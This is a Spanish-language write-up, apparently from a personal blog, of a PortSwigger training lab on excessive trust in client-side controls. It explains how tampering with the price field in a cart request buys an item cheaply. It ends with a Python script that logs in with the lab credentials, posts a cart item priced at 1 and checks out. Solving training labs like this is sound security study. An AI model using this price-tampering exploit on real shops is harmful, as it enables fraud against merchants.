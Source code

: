```yaml
---
title: "01 Excessive trust in client-side controls"
collection: publications
category: portswigger
permalink: publications/Business logic/01_Excessive trust in client-side controls
excerpt: 'Este laboratorio no valida adecuadamente la entrada del usuario. Puedes aprovechar un fallo lógico en su flujo de trabajo de compras para comprar artículos por un precio no previsto.'
date: 2024-12-08
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Excessive trust in client-side controls'
---
```


![logo]({{site.url}}/images/Business logic/Business-logic-lab-01/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Business logic/Business-logic-lab-01/descripcion.png)

## Objetivo del laboratorio

Para resolver este laboratorio, compra una "Lightweight l33t leather jacket" a un precio mas economico.

## Analisis

Nos logueamos en la pagina web y realizamos el flujo como si fueramos a comprar un articulo. Vemos que tenemos un saldo de $100 y la chaqueta nos cuesta 1337 no nos alcanza para comprarla.

![Conf1]({{site.url}}/images/Business logic/Business-logic-lab-01/conf1.png)

Vemos que podemos modificar el precio asi que lo cambiamos a un valor menor

![Conf2]({{site.url}}/images/Business logic/Business-logic-lab-01/conf2.png)

Recargamos la pagina y vemos que cambio el valor y realizamos la compra

![Conf3]({{site.url}}/images/Business logic/Business-logic-lab-01/conf3.png)

## Aprobado

![Aprobado]({{site.url}}/images/Business logic/Business-logic-lab-01/aprobado.png)

# Codigo Python

```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re 

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def get_csrf_token(s, url):
    r = s.get(url, verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find("input", {'name': 'csrf'})['value']
    return csrf


def buy_item(s, url):

    # Retrieve the CSRF token
    login_url = url + "/login"
    csrf_token = get_csrf_token(s, login_url)

    # Login as the wiener user
    print("(+) Logging in as the wiener user...")
    data_login = {"csrf": csrf_token, "username": "wiener", "password": "peter"}
    r = s.post(login_url, data=data_login, verify=False, proxies=proxies)
    res = r.text
    if "Log out" in res:
        print("(+) Successfully logged in as the wiener user.")

        # Add item to cart
        cart_url = url + "/cart"
        data_cart = {"productId": "1", "redir": "PRODUCT", "quantity": "1", "price": "1"}
        r = s.post(cart_url, data=data_cart, verify=False, proxies=proxies)

        # Checkout
        checkout_url = url + "/cart/checkout"
        checkout_csrf_token = get_csrf_token(s, cart_url)
        data_checkout = {"csrf": checkout_csrf_token}
        r = s.post(checkout_url, data=data_checkout, verify=False, proxies=proxies)

        # Check if we solved the lab
        if "Congratulations" in r.text:
            print("(+) Successfully exploited the business logic vulnerability.")
        else:
            print("(-) Could not exploit the business logic vulnerability.")
            sys.exit(-1)
    else:
        print("(-) Could not login as user.")


def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    s = requests.Session()
    url = sys.argv[1]
    buy_item(s, url)

if __name__ == "__main__":
    main()
```